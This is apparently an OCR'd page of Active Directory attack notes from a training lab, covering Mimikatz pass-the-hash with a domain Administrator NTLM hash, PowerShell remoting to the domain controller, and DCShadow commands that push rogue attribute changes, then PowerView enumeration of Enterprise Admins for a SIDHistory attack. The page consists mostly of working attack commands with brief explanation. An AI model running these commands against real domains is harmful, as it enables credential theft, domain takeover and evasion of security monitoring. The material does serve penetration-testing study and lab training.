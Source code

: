 ```powershell

# Use below command to pass the hash. Use the hash from the above command
# Needs to be excute from another powershell windows with local admin
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

# Session
$sess = New-PSSession -ComputerName dc
Enter-PSSession $sess
# or
ls \\dcorp-dc\c$
```

# DCShadow Change Attribute

It simulates the behavior of a Domain Controller (using protocols like RPC used only by DC) to inject its own data, bypassing most of the common security controls and including your SIEM. It shares some similarities with the DCSync attack (already present in the lsadump module of mimikatz). 

```bash
# run as system
PsExec.exe -i -s cmd 

# push attribute 
mimikatz.exe
lsadump::dcshadow /object:student5 /attribute:badpwdcount /value:3333
lsadump::dcshadow /object:student5 /attribute:PwdLastset /value:0x1D4B32777877508

# open cmd as admin
# push the attribute change
mimikatz.exe
lsadump::dcshadow /push
```

# DCShadow - SIDHistory

Domain Admins is the AD group that most people think of when discussing Active Directory administration. This group has full admin rights by default on all domain-joined servers and workstations, Domain Controllers, and Active Directory. 

It gains admin rights on domain-joined computers since when these systems are joined to AD, the Domain Admins group is added to the computer’s Administrators group.


Enterprise Admins is a group in the forest root domain that has full AD rights to every domain in the AD forest. It is granted this right through membership in the Administrators group in every domain in the forest.

```bash
. .\Powerview.ps1
Get-DomainGroup -SamAccountName "Enterprise Admins"
```
